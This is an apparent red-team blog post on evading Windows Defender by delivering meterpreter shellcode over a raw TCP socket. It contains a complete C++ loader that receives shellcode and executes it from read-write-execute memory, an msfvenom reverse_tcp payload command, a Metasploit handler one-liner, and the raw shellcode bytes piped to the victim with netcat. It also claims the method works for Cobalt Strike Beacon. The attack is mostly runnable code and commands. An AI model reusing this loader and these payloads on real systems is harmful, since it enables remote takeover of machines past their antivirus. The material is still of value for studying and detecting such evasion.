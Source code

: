 ```yaml
---
layout: post
title: "bypassing windows defender one tcp socket away from meterpreter and cobalt strike beacon"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /defense-evasion/
---
```


# Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](<../../.gitbook/assets/Peek 2019-05-07 21-40.gif>)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender (7th of May at the time of writing) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**\
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine (10.0.0.7) opens up a listening TCP socket on on port 443 (or any other)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine (10.0.0.5) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter (or cobalt strike beacon) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program (see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-45-02.png>)

Let's generate a staged meterpreter payload and output it to C format:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-49-59.png>)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 22-23-33.png>)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine (where a TCP socket is listening on 443) via netcat:

{% code title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket (port 443) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](<../../.gitbook/assets/Peek 2019-05-07 21-34.gif>)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" %}
@spotheplanet
